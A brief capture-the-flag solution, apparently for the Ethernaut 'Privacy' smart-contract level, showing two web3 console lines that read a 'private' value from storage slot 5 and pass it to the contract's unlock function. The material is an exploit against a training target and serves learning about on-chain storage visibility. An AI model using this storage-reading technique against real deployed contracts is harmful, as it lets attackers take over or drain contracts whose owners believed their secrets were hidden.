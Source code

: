 # Level 12 - Privacy

Find the value of ```data[2]``` in the contract's storage via ```web3.eth.getStorageAt()```

In the console:

```js
const key = await web3.eth.getStorageAt(instance, 5)
await contract.unlock(key)
```

